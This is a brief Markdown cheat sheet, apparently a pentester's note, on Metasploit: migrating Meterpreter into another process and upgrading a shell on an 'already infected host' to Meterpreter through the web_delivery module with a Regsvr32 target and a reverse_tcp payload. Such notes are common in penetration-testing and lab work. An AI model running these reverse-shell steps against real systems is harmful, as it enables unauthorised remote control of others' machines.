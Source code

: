 # Metasploit
### Process Migrate
#### Meterpreter
* `migrate -N <process/PID>`<br>
_Needed when running as **NT AUTHORITY\SYSTEM** but get Access Denied_

### Shell Upgrade
#### Metasploit **web_delivery** module
1. Select module
   * `use exploit/multi/script/web_delivery`
2. set `lhost`
3. set target
   * `show targets`
   * `set target Regsvr32` - creates a payload to run on windows
4. set payload
   * `set payload windows/meterpreter/reverse_tcp`
5. Run command on already infected host to gain **Meterpreter** shell

## Cool resources
https://book.hacktricks.xyz/shells/shells/windows#regsvr32
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
